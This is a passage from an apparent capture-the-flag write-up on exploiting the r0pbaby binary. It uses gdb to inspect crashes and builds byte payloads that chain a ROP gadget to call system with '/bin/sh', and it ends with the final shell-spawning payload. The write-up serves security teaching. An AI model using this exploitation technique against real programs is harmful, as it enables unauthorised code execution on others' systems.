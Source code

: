Great! It crashed as expected! Let's take a look at HOW it crashed:

<pre>
$ <strong>gdb -q ./r0pbaby ./core</strong>
Core was generated by `./r0pbaby'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00007ffff792b2cb in clone () from /lib64/libc.so.6
(gdb) x/i $rip
=&gt; 0x7ffff792b2cb <clone+107>:  call   rax
</pre>

It crashed on the call at the end of the gadget, which makes sense! Let's check out what it's trying to call and what it's using as a parameter:

<pre>
(gdb) <strong>print/x $rax</strong>
$1 = 0x4343434343434343
(gdb) <strong>print/x $rdi</strong>
$2 = 0x4444444444444444
</pre>

It's trying to call "CCCCCCCC" with the parameter "DDDDDDDD". Awesome! Let's try it again, but this time we'll plug in our sh_address in place of "DDDDDDDD" to make sure that's working (I strongly believe in incremental testing :) ):

<pre>
$ <strong>echo -ne '3\n32\nAAAAAAAA\xc9\xb2\x92\xf7\xff\x7f\x00\x00CCCCCCCC\x7c\x30\x9a\xf7\xff\x7f\x00\x00\n' | ./r0pbaby</strong>
[...]
Segmentation fault (core dumped)
$ <strong>gdb -q ./r0pbaby ./core</strong>
[...]
(gdb) x/i $rip
=> 0x7ffff792b2cb <clone+107>:  call   rax
</pre>

It's still crashing in the same place! We don't have to check rax, we know it'll be 0x4343434343434343 ("CCCCCCCC") again. But let's check out if rdi is right:

<pre>
(gdb) <strong>print/x $rdi</strong>
$2 = 0x7ffff79a307c
(gdb) <strong>x/s $rdi</strong>
0x7ffff79a307c: "/bin/sh"
</pre>

All right, the parameter is set properly!

One last step: Replace the return address ("CCCCCCCC") with the address of system 0x00007ffff7883960:

<pre>
$<strong> echo -ne '3\n32\nAAAAAAAA\xc9\xb2\x92\xf7\xff\x7f\x00\x00\x60\x39\x88\xf7\xff\x7f\x00\x00\x7c\x30\x9a\xf7\xff\x7f\x00\x00\n' | ./r0pbaby</strong>
</pre>
